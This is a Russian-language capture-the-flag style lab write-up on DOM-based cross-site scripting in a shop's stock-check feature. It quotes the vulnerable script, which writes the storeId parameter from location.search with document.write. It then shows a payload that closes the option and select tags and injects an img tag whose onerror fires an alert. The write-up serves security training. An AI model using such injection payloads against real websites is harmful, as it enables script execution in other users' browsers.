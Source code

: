 Эта лаборатория содержит уязвимость сценариев на основе DOM **в функциональности чека количества**. Он использует JavaScript `document.write` Функция, которая записывает данные на страницу. А `document.write` Функция вызывается с данными из `location.search` который вы можете управлять с помощью URL -адреса веб -сайта. Данные заключены в элемент выбора.

## Дано 



## Задача

# Разведка

- при просмотре функции чека количества товара видим
```
<script>
	var stores = ["London","Paris","Milan"];
	var store = (new URLSearchParams(window.location.search)).get('storeId');
	document.write('<select name="storeId">');
	if(store) {
		document.write('<option selected>'+store+'</option>');
	}
	for(var i=0;i<stores.length;i++) {
		if(stores[i] === store) {
			continue;
		}
		document.write('<option>'+stores[i]+'</option>');
	}

	document.write('</select>');
</script>
```

# Атака

- при чеке количества видим источник [window.location.search](https://developer.mozilla.org/en-US/docs/Web/API/Location/search) который является уязвимым 
	 `&storeId=test` - тем самым внедрили test
	 ![[Pasted image 20250128153710.png]]

- Выходим из тегов `</option></select>test`
![[Pasted image 20250128154138.png]]

- `&storeId=</option></select><img src="0" onerror="alert('XSS Attack!')">`